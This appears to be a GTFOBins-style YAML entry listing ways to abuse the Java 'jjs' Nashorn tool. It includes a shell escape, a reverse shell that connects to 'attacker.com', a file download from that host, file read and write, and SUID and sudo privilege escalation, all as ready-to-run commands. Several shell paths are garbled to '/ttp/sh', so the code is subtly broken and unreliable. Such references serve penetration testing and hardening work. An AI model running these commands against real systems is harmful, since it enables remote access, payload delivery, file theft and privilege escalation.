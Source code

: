 ```yaml
---
description: This tool is installed starting with Java SE 8.
functions:
  shell:
    - code: echo "Java.type('java.lang.Runtime').getRuntime().exec('/ttp/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)').waitFor()" | jjs
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        echo 'var host=Java.type("java.lang.System").getenv("RHOST");
        var port=Java.type("java.lang.System").getenv("RPORT");
        var ProcessBuilder = Java.type("java.lang.ProcessBuilder");
        var p=new ProcessBuilder("/ttp/bash", "-i").redirectErrorStream(true).start();
        var Socket = Java.type("java.net.Socket");
        var s=new Socket(host,port);
        var pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
        var po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){ while(pi.available()>0)so.write(pi.read()); while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read()); so.flush();po.flush(); Java.type("java.lang.Thread").sleep(50); try {p.exitValue();break;}catch (e){}};p.destroy();s.close();' | jjs
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        echo "var URL = Java.type('java.net.URL');
        var ws = new URL('$URL');
        var Channels = Java.type('java.nio.channels.Channels');
        var rbc = Channels.newChannel(ws.openStream());
        var FileOutputStream = Java.type('java.io.FileOutputStream');
        var fos = new FileOutputStream('$LFILE');
        fos.getChannel().transferFrom(rbc, 0, Number.MAX_VALUE);
        fos.close();
        rbc.close();" | jjs
  file-write:
    - code: |
        echo 'var FileWriter = Java.type("java.io.FileWriter");
        var fw=new FileWriter("./file_to_write");
        fw.write("DATA");
        fw.close();' | jjs
  file-read:
    - code: |
        echo 'var BufferedReader = Java.type("java.io.BufferedReader");
        var FileReader = Java.type("java.io.FileReader");
        var br = new BufferedReader(new FileReader("file_to_read"));
        while ((line = br.readLine()) != null) { print(line); }' | jjs
  suid:
    - description: This has been found working in macOS but failing on Linux systems.
      code: echo "Java.type('java.lang.Runtime').getRuntime().exec('/ttp/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | ./jjs
  sudo:
    - code: echo "Java.type('java.lang.Runtime').getRuntime().exec('/ttp/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)').waitFor()" | sudo jjs
---
```

